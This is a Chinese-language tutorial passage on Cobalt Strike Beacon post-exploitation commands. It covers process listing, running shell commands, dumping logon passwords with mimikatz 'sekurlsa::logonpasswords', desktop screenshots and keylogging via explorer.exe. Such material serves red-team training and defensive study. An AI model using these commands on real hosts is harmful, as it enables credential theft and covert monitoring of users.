





# Cobalt Strike Beacon 基础信息搜集

> 原文：[http://book.iwonder.run/Tools/Cobalt Strike/30.html](http://book.iwonder.run/Tools/Cobalt Strike/30.html)

```
getuid 

查看当前 shell 权限,如下可以看到,当前是以系统内建的 administrator 用户权限在操作 
```

```
ps 

查看当前系统进程列表 [ 默认它已经事先把 64 位和 32 进程区分清楚了,这也是为什么不去用系统自带的 tasklist 工具的原因,比如,后面某些功能就需要你明确指明目标进程是 32 还是 64 位的 ] 
```



```
kill 3292 

杀掉指定 id 的进程,比如,杀掉这个记事本进程 
```

```
shell query user 

执行 win 系统的各种原生 cmd 命令,命令参数正常带上执行即可 
```

```
shell mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords" "exit" 

shell 也可以用来执行自己上传的一些 命令行程序,比如,mimikatz.exe 执行完之后它会把执行的结果再回显回来 
```


```
execute mimikatz.exe "log" "privilege::debug" "sekurlsa::logonpasswords" "exit" 

跟 shell 功能有所不同,同样都是执行指定命令行程序,但 shell 会把执行结果回显回来,而 execute 则不会,至于到底执行成功没,还需要用其它方式来判断 
```



> 特别注意这个截屏功能,因为我们现在是在正常的 administrator 用户权限下操作的[标准用户环境],所以,通过 explorer.exe 就直接能截取到目标桌面,如果你当前是在 system 权限下则必须先把自己降权或切换到一个正常的正在线系统用户权限上,这样才能正常截到目标桌面

```
screenshot x64 2656 1

对用户桌面进行截屏 
```





```
keylogger 2656 x64 

常规键盘记录,同样还是指定 explorer.exe 进程进行截获 
```


> 如下,我们看到中文显示乱码了,很正常,因为我们用的这个 CobaltStrike,几乎是原生的默认也没有调整编码,所以,不用太在意,后期等整个系列全部更新完,视情况也许会给大家一个调整好的用



